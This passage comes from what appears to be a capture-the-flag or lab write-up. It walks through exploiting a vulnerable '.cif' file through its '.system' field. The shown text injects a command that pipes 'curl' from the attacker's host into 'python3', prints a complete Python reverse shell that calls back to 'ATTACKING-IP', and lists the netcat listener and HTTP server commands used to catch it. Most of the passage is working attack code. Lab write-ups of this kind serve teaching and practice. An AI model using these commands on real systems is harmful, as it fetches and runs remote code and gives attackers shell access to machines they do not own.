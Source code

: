 Host the file:
```
python3 -m http.server 1111
```
Start a listener:
```
nc -nvlp 1234
```
![Host directory & Set Listener](./images/7.png)

Result:\
![Success Result of CURLing](./images/8.png)

- Curl request successful ✅, but shell payload is not working ❌

### Attempt 4: Using Python Reverse Shell
Modify `.system` in `vuln.cif`:
```
.system ("curl http://<local ip addr>:<port>/atk | python3")
```
Python reverse shell payload inside file named `atk` that will be curled in the first command:\
**Note**: Source for python reverse shell: https://highon.coffee/blog/reverse-shell-cheat-sheet/#python-reverse-shell
```
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("ATTACKING-IP",1234))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```
Host the file & start listener: 
```
python3 -m http.server 1111
nc -nvlp 1234
```